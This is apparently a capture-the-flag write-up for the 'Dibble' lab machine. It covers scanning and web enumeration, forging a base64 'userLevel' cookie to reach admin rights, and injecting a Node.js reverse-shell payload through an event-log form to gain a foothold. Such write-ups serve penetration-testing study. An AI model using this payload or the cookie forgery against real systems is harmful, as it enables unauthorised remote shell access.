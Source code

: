```yaml
---
layout: post
title: PG | Dibble
subtitle: A good tool for making holes with. Careful you don't stick yourself!
---
```


# Nmap Scan Results

~~~shell
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-26 07:36 UTC
Nmap scan report for 192.168.182.110
Host is up (0.014s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.228
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   3072 9d:3f:eb:1b:aa:9c:1e:b1:30:9b:23:53:4b:cf:59:75 (RSA)
|   256 cd:dc:05:e6:e3:bb:12:33:f7:09:74:50:12:8a:85:64 (ECDSA)
|_  256 a0:90:1f:50:78:b3:9e:41:2a:7f:5c:6f:4d:0e:a1:fa (ED25519)
80/tcp    open  http    Apache httpd 2.4.46 ((Fedora))
|_http-server-header: Apache/2.4.46 (Fedora)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.txt /web.config /admin/ 
| /comment/reply/ /filter/tips /node/add/ /search/ /user/register/ 
| /user/password/ /user/login/ /user/logout/ /index.php/admin/ 
|_/index.php/comment/reply/
|_http-title: Home | Hacking Articles
|_http-generator: Drupal 9 (https://www.drupal.org)
3000/tcp  open  http    Node.js (Express middleware)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
27017/tcp open  mongodb MongoDB 4.2.9
| mongodb-info: 
|   MongoDB Build info
|     bits = 64
|     ok = 1.0
|     openssl
|       running = OpenSSL 1.0.1e-fips 11 Feb 2013
|       compiled = OpenSSL 1.0.1e-fips 11 Feb 2013
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 239.76 seconds
~~~

# Service Enumeration

## FTP (TCP/21)

The target machine is running an FTP server, after authenticating and exiting passive mode there were no available files on the FTP server.

~~~shell
┌──(kali㉿kali)-[~/Desktop/Dibble]
└─$ ftp anonymous@192.168.182.110
Connected to 192.168.182.110.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
~~~

## HTTP (TCP/80)
The target machine is running an Apache web server on port 80 displaying a blog for hacking articles

![Dibble](/assets/img/DibblePG(1).png)

I started by running a FFUF sub-directory scan and identified a long list of web pages including a /user/login page, a search page and a contact page that all take user input.

~~~shell
┌──(kali㉿kali)-[~/Desktop/Dibble]
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://192.168.182.110/FUZZ -fs 13655

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.182.110/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 13655
________________________________________________

contact                 [Status: 200, Size: 8187, Words: 690, Lines: 138, Duration: 164ms]
search                  [Status: 302, Size: 382, Words: 60, Lines: 12, Duration: 210ms]
themes                  [Status: 301, Size: 238, Words: 14, Lines: 8, Duration: 14ms]
modules                 [Status: 301, Size: 239, Words: 14, Lines: 8, Duration: 12ms]
user                    [Status: 302, Size: 378, Words: 60, Lines: 12, Duration: 101ms]
admin                   [Status: 403, Size: 4306, Words: 414, Lines: 109, Duration: 128ms]
sites                   [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 11ms]
Search                  [Status: 302, Size: 382, Words: 60, Lines: 12, Duration: 139ms]
Contact                 [Status: 200, Size: 8187, Words: 690, Lines: 138, Duration: 151ms]
core                    [Status: 301, Size: 236, Words: 14, Lines: 8, Duration: 18ms]
profiles                [Status: 301, Size: 240, Words: 14, Lines: 8, Duration: 11ms]
vendor                  [Status: 403, Size: 199, Words: 14, Lines: 8, Duration: 18ms]
User                    [Status: 302, Size: 378, Words: 60, Lines: 12, Duration: 144ms]
Admin                   [Status: 403, Size: 4306, Words: 414, Lines: 109, Duration: 115ms]
batch                   [Status: 403, Size: 4306, Words: 414, Lines: 109, Duration: 499ms]
SEARCH                  [Status: 302, Size: 382, Words: 60, Lines: 12, Duration: 342ms]
CONTACT                 [Status: 200, Size: 8187, Words: 690, Lines: 138, Duration: 1187ms]
~~~

As identified in the nmap scan the target is hosting a MongoDB server, so we can assume that this website may be connected to the database, and therefore can attempt an SQL injection on each parameter, however after attempting SQL injections on all front facing input parameters they seem to be getting sanitized on the back-end.

![Dibble](/assets/img/DibblePG(2).png)

The admin sub-directory is also returning a 403 Access denied page.

## HTTP (TCP/3000)

Port 3000 is also running a webserver using Node.js JavaScript based web application.

Navigating through the website we are able to register a user account via /auth/register, and then log into the user account.

![Dibble](/assets/img/DibblePG(3).png)

After logging in we find a sub-page /logs/all that shows a series of event logs stored by the web server, this can potentially be our foothold if we are able to store a reverse shell and then access the event log to execute it.

![Dibble](/assets/img/DibblePG(4).png)

Under the 'New Event Log' page we then attempt to test the parameters of the website and when trying to'Register a new log event' we are denied

![Dibble](/assets/img/DibblePG(5).png)

In order to perform a new log event we will need to impersonate an admin account, when inspecting the cookies we find a 'userLevel' encoded cookie

![Dibble](/assets/img/DibblePG(6).png)

Running the cookie through the Burp Decoder we identify the value is 'default' which is encoded in base64 then URL

![Dibble](/assets/img/DibblePG(7).png)

We manipulate the value 'default' and replace it with 'admin' base64 encoded to YWRtaW4= and then replace the userLevel value with our new cookie

![Dibble](/assets/img/DibblePG(8).png)

When attempting to create a 'New Event Log' with our new admin userLevel cookie it works!

![Dibble](/assets/img/DibblePG(9).png)

We now need to attempt to upload a reverse shell compatible with Node.js and with the assistance of [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#nodejs) we have one

~~~shell
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4242, "10.0.0.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
~~~

We start a netcat listener on port 21
~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 21
listening on [any] 21 ...
~~~

Then upload our Node.js reverse shell via Registering a new log event

![Dibble](/assets/img/DibblePG(10).png)

And we recieve our shell, and get our foothold!
~~~shell
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 21
listening on [any] 21 ...
connect to [192.168.45.228] from (UNKNOWN) [192.168.182.110] 42440
whoami
benjamin
~~~
